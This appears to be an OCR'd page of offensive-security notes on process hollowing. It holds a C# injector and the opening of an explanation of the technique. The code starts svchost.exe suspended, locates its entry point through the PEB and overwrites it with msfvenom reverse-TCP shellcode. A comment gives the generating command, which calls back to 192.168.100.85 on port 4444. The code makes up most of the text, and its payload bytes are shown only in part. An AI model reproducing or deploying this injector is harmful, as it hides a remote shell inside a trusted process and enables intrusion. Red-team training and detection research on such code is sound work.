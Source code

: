 ```csharp

            bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", ref sa, ref sa, false, 0x4, IntPtr.Zero, null, ref si, out pi);

            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
            uint tmp = 0;
            IntPtr hProcess = pi.hProcess;
            ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);

            IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);

            byte[] addrBuf = new byte[IntPtr.Size];
            IntPtr nRead = IntPtr.Zero;
            ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);

            IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));

            byte[] data = new byte[0x200];
            ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);

            uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
            uint opthdr = e_lfanew_offset + 0x28;
            uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
            IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);

            IntPtr entryPoint = IntPtr.Zero;
            // msfvenom -p windows/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.100.85 -f csharp -v shellcode (ENCODED)
            byte[] buf = new byte[734] {0xfc,0x48,0x83,0xe4,0xf0,
 ...                                     0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,0xd5};

            WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);

            ResumeThread(pi.hThread);
        }
    }
}
```


### **Process Hollowing: An In-Depth Analysis**

**Process hollowing** is a sophisticated code injection technique where an attacker spawns a legitimate process in a suspended state, replaces its code with malicious code, and then resumes the process, making it appear as if the legitimate process is running while it is executing the injected malicious code. This method is often used to evade detection by security mechanisms because the malicious code runs under the guise of a trusted process.

### **Steps Involved in Process Hollowing**

1. **Create a Suspended Process**: The attacker first creates a new process in a suspended state using functions like `CreateProcess` with the `CREATE_SUSPENDED` flag. This allows the process to be created without starting execution immediately.
